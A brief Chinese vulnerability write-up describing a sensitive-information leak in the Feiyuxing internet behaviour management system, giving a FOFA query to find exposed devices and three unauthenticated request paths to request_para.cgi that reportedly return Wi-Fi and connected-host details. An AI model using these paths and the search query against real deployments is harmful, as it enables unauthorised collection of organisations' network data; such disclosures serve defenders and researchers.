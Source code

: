 # 飞鱼星智能上网行为管理系统存在敏感信息泄露漏洞

# 一、漏洞详情
飞鱼星智能上网行为管理系统存在敏感信息泄露漏洞

# 二、影响版本
+ 飞鱼星智能上网行为管理系统

# 三、资产测绘
+ fofa`<font style="color:rgb(51, 51, 51);">title="飞鱼星企业级智能上网行为管理系统"</font>`
+ <font style="color:rgb(51, 51, 51);">特征</font>

![1710903993282-74c0565e-7ea8-4511-909f-4be0e632c2a7.png](./img/9AG4ORDV7IedqzFz/1710903993282-74c0565e-7ea8-4511-909f-4be0e632c2a7-769660.png)

# 四、漏洞复现
```plain
/request_para.cgi?parameter=wifi_info
```

![1719499181319-44ab815f-87e4-4cb2-b72d-0148d1a1af29.png](./img/9AG4ORDV7IedqzFz/1719499181319-44ab815f-87e4-4cb2-b72d-0148d1a1af29-508727.png)

```plain
/request_para.cgi?parameter=wifi_get_5g_host
```

![1719499500867-37ec082b-126b-4b69-a318-1bce91a416df.png](./img/9AG4ORDV7IedqzFz/1719499500867-37ec082b-126b-4b69-a318-1bce91a416df-114550.png)

```plain
/request_para.cgi?parameter=wifi_get_2g_host
```

![1719499611173-9f2abb60-be50-4582-ba17-dab541a20841.png](./img/9AG4ORDV7IedqzFz/1719499611173-9f2abb60-be50-4582-ba17-dab541a20841-304644.png)



> 更新: 2024-09-03 14:56:23  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qqt2qnbf01gqw3g6>